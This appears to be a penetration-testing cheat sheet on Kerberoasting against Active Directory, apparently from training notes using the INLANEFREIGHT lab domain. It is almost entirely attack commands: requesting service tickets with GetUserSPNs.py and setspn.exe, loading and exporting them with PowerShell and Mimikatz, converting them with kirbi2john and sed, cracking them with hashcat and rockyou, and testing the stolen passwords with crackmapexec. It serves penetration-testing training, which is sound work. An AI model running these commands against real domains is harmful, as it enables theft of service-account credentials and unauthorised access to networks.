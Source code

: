 ```bash

# Requesting all TGS Tickets
GetUserSPNs.py -dc-ip <DC-IP> <DOMAIN.LOCAL>/<USER> -request

# Requesting a Single TGS ticket for a specific account
GetUserSPNs.py -dc-ip <DC-IP> <DOMAIN.LOCAL>/<USER> -request-user <USER-SVC>

# Saving the TGS Ticket to an Output File
GetUserSPNs.py -dc-ip <DC-IP> <DOMAIN.LOCAL>/<USER> -request-user <USER-SVC> -outputfile <USER-SRV_tgs>
```
#### Cracking the Ticket Offline with Hashcat
```bash
hashcat -m 13100  <USER-SRV_tgs> /usr/share/wordlists/rockyou.txt 
```
#### Testing Authentication against a Domain Controller
```bash
sudo crackmapexec smb 172.16.5.5 -u <USER-SVC> -p <USER-SVC-PASS>
```

---
# Kerberoasting - from Windows

## Kerberoasting - Semi Manual method
#### Enumerating SPNs with setspn.exe
```powershell
setspn.exe -Q */* # returned all SPNs
  # CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
  # MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
  # <SNIP>...

# Retrieving TGS for a Single User (sqldev) and load them into memory
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<MSSQLSvc/DEV-PRE-SQL.DOMAIN.LOCAL:1433>"

# Retrieving All TGS Using setspn.exe and load them into memory
setspn.exe -T <DOMAIN.LOCAL> -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```
Now that the tickets are loaded, we can use `Mimikatz` to extract the ticket(s) from `memory`.
#### Extracting Tickets from Memory with Mimikatz
```powershell
base64 /out:true # Enable base64 output for exported tickets
kerberos::list /export  # => # List Kerberos tickets in memory and export them to .kirbi files
```
If we don’t use `base64 /out:true` in Mimikatz, it saves tickets as `.kirbi` files.  
These can be moved to our attack machine and cracked directly, which is often easier if file transfer is simple.
#### Preparing the Base64 Blob for Cracking
```bash
echo "<base64 blob>" |  tr -d \\n > encoded_file # print + deletes all newline
cat encoded_file | base64 -d > sqldev.kirbi # Placing the Output into a File as .kirbi
python2.7 kirbi2john.py sqldev.kirbi # Extracting the Kerberos Ticket (TGS)

# Modifiying crack_file for Hashcat
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat

# Viewing the Prepared Hash
cat sqldev_tgs_hashcat # $krb5tgs$23$*sqldev.kirbi*$813149fb2....
```
